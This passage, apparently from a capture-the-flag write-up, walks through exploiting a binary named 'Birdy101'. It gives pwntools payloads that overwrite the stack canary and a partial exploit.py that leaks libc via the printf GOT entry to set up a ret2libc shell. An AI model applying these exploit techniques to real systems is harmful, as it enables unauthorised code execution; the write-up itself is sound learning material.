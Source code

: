 ```bash
```

So now we overwrote `fs:0x10`.
I changed the payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(0x100)
```

using `gdb` I saw that this indeed worked, and that the canary was `eaaafaaa`.
I changed my payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(cyclic_find('eaaafaaa'))
payload += p64(0xAAAAAAAA)
```

and the canary was `0xAAAAAAAA`, now I fully control it!

That means I can overwrite it and use a `ret2libc` attack!

# Final exploit
1. I leaked the libc base using the vuln in `register_user`
2. I used the overflow in `vuln` to grant me a shell
3. I used the overflow in `vuln` to change the canary

`exploit.py`
```python
from pwn import *

file = "./Birdy101"
libc = "./libc.so.6"

elf = ELF(file)
libc = ELF(libc)
rop_libc = ROP(libc)

# symbols and locations
PRINTF_GOT_ENTRY = elf.symbols["got.printf"]
PRINTF_LIBC_OFFSET = libc.symbols["printf"]
SYSTEM_LIBC_OFFSET = libc.symbols["system"]
BSS_LOCATION = elf.bss()

CHANGED_CANARY = b"TOMERRRR"

BIN_SH = next(libc.search(b'/bin/sh'))
RET_RDI = rop_libc.rdi.address
RETN = rop_libc.retn.address


def main():
    con = process("./Birdy101")

    # 1. We still don't use it. just something that wont crash
    con.send(p64(PRINTF_GOT_ENTRY))
    con.readuntil(b"Welcome ")
    printf_location = u64(con.read(6) + b'\0\0') # read 6 and add \0\0 because string is null terminated.
    libc_base = printf_location - PRINTF_LIBC_OFFSET

    # Wait for the read, gdb makes things slow or whatever
    time.sleep(3)

```